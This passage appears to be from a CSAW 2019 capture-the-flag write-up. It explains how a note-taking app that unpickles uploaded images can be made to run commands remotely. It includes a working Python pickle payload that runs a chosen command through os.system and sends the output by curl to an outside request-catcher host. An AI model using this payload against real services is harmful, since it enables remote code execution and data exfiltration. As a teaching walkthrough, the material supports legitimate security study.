 ```python
        port=5000
    )
```

We notice the pickle module, after reading about it on google pickle serializes and de-serializes object structures, plus there is a warning about it!

<img src="/assets/2019-10-01-RED-CSAW19-NevernotePickle/images/image4.png"> <br>

*Never unpickle data received from an untrusted source*

Basically our Note object will be instantiated, and the file name will be the hash it creates + .png at the end. Then our object hits the save_note() function which saves it TWICE, once with a .pickle extension and the it saves only the image with the .png extension. Meaning our images goes through the unpickle function as is, we can have the server unpickle whatever we want! Meaning we can pickle commands and have them executed on the server.

So we need a pickled payload, that saves onto the server, then we make a get request to our .png image, that will hit the unpickle function in the code and get RCE.

I wrote an exploit that accepts a command, and makes a POST request to requestcatcher (https://requestcatcher.com/) with the the data its sending being the command!
Then it pickles the object and saves it to a .png file.


```python
import cPickle
import os
import sys

class makePayload(object):
    def __reduce__(self):
        command = "curl -X POST -d $(" + comm + ") https://saint.requestcatcher.com/nevernote"
        return (os.system, (command,))

comm = sys.argv[1]
payload = cPickle.dumps(makePayload())
badImage = open("bad.png", "w")
badImage.write(payload)
```

Let me demonstrate:

<img src="/assets/2019-10-01-RED-CSAW19-NevernotePickle/images/image5.png">
